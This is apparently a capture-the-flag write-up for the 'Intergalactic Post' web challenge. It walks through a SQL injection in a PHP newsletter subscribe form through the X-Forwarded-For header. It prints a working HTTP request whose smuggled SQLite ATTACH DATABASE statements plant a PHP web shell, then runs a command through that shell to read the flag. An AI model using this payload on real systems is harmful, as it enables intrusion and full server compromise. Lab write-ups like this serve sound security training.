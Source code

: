 # Intergalactic Post

```
The biggest intergalactic newsletter agency has constantly been spreading misinformation about the energy crisis war. Bonnie's sources confirmed a hostile takeover of the agency took place a few months back, and we suspect the Golden Fang army is behind this. Ulysses found us a potential access point to their agency servers. Can you hack their newsletter subscribe portal and get us entry?
```

examining the source of the challenge we find unsafe string interpolation leading to SQL injection

```php

# Database.php
...
    public function subscribeUser($ip_address, $email)
    {
        return $this->db->exec("INSERT INTO subscribers (ip_address, email) VALUES('$ip_address', '$email')");
    }
...
```

but $email is filtered

```php
# SubsController.php
...
        if (empty($email) || !filter_var($email, FILTER_VALIDATE_EMAIL)) {
            header('Location: /?success=false&msg=Please submit a valild email address!');
            exit;
        }
...
```

so let's injected via $ip_adress. We can control the value with HTTP Headers

```php
...
# SubscriberModel.php
    public function getSubscriberIP(){
        if (array_key_exists('HTTP_X_FORWARDED_FOR', $_SERVER)){
            return  $_SERVER["HTTP_X_FORWARDED_FOR"];
        }else if (array_key_exists('REMOTE_ADDR', $_SERVER)) {
            return $_SERVER["REMOTE_ADDR"];
        }else if (array_key_exists('HTTP_CLIENT_IP', $_SERVER)) {
            return $_SERVER["HTTP_CLIENT_IP"];
        }
        return '';
    }
...
```

we know the db is sqlite, so let's research on some payloads.

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md#remote-command-execution-using-sqlite-command---attach-database

Thos has good potential, because we have a php webserver

```
POST /subscribe HTTP/1.1
Host: localhost:1337
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 15
Origin: http://localhost:1337
Connection: close
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
X-Forwarded-For: 127.0.0.1',+'test');ATTACH DATABASE '/www/t.php' AS t;CREATE TABLE t.pwn (dataz text);INSERT INTO t.pwn (dataz) VALUES('<?php system($_GET["cmd"]); ?>')--
Sec-Fetch-User: ?1

email=test%40test.com
```

now navigate to our created webshell for RCE!

http://157.245.33.77:30496/t.php?cmd=cat%20/flag*

HTB{inj3ct3d_th3_tru7h}
